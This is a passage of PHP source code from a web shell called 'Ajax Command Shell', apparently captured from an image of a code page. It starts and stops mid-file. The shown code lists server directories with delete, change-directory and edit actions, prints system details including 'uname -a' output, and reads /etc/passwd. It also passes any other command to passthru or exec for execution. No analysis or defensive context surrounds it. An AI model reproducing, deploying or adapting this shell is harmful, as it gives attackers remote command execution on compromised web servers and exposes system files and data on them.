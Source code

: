             if ($handle = opendir($directory[1])) {
                while (false !== ($file = readdir($handle))) {
                    if (is_dir($file)) {
                        $dirs[$i] = $file;
                        $i++;
                    } else {
                        $filez[$f] = $file;
                        $f++;
                    }
                }
                print "<td>";
                foreach ($dirs as $directory) {
                    print "<i style=\"cursor:crosshair\" onclick=\"deletefile('" . realpath($directory) . "');\">[D]</i><i style=\"cursor:crosshair\" onclick=\"runcommand('changeworkdir " . realpath($directory) . "','GET');\">[W]</i><b style=\"cursor:crosshair\" onclick=\"runcommand('clear','GET'); runcommand ('listdir " . realpath($directory) . "','GET'); \">" . $directory . "</b><br>";
                }
                print "</td><td>";
                foreach ($filez as $file) {
                    print "<i style=\"cursor:crosshair\" onclick=\"deletefile('" . realpath($file) . "');\">[D]</i><u style=\"cursor:crosshair\" onclick=\"runcommand('editfile " . realpath($file) . "','GET');\">" . $file . "</u><br>";
                }
                print "</td></table>";
            }
        } elseif (strtolower($cmd) == "about") {
            print "Ajax Command Shell by <a href=http://www.ironwarez.info>Ironfist</a>.<br>Version $version";
        }
        //Show info
        elseif (strtolower($cmd) == "showinfo") {
            if (function_exists(disk_free_space)) {
                $free = disk_free_space("/") / 1000000;
            } else {
                $free = "N/A";
            }
            if (function_exists(disk_total_space)) {
                $total = trim(disk_total_space("/") / 1000000);
            } else {
                $total = "N/A";
            }
            $path = realpath(".");
            print "<b>Free:</b> $free / $total MB<br><b>Current path:</b> $path<br><b>Uname -a Output:</b><br>";
            if (function_exists(passthru)) {
                passthru("uname -a");
            } else {
                print "Passthru is disabled :(";
            }
        }
        //Read /etc/passwd
        elseif (strtolower($cmd) == "etcpasswdfile") {
            $pw = file('/etc/passwd/');
            foreach ($pw as $line) {
                print $line;
            }
        }
        //Execute any other command
        else {
            if (function_exists(passthru)) {
                passthru($cmd);
            } else {
                if (function_exists(exec)) {
                    exec("ls -la", $result);
                    foreach ($result as $output) {